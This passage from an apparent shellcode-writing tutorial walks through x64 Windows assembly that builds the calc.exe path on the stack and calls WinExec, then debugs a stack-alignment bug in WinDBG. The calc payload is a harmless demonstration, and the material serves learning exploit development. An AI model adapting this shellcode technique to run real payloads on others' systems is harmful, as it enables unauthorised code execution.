 Now we can effectively attempt to call the WinExec function. 

This is what we can do :

1. create the `C:\Windows\System32\calc.exe`
2. Store the pointer to the string into rcx (first argument of WinExec)
3. Store the value 1 into rdx (second argument == SW_SHOWNORMAL)
4. call register rdi (containing the Virtual Address of WinExec)

```asm
    ;; Now address of WinExec is in rdi
    ;; Write string of calc.exe into the stack and get the stack pointer before calling 

    mov rbx, 6578652e41414141h  ; exe.AAAA
    shr rbx, 32                 ;  ".exe\x00\x00\x00\x00"
    push rbx    
    mov rbx, 636c61635c32336dh  ; 
    push rbx
    mov rbx, 65747379735c7377h  ; \sw
    push rbx
    mov rbx, 6f646e69575c3a43h  ; odniW\:C
    push rbx                        
    push rsp  ; Push the stackpointer pointing to the calc.exe string

    pop rcx   ; pass in as first argumnent
    inc rdx   ; SW_SHOWNORMAL as second argument
    
    call rdi  ; Call WinExec
```

Let's now set a breakpoint at `call rdi` and see the result of arguments !

![[Pasted image 20241111151609.png]]

To verify that register rdi is indeed WinExec, let's check from WinDBG :

![[Pasted image 20241111151613.png]]

Now, all seems to be correct however, our calculator is not being spawned @.@

Now to understand why this is the case, we will realise that the stack values is being altered in the previous stack frame. We can see that in the highlighted region.

![[Pasted image 20241111151617.png]]

To solve this, we should add a pivot to a lower stack location of 0x20

```asm
pop rcx   ; pass in as first argumnent
inc rdx   ; SW_SHOWNORMAL
+ sub rsp, 20h   ; Avoid messing with stack for the top 0x20 bytes
call rdi  ; Call WinExec
```

With this, we should be successful in spawning a calc :D
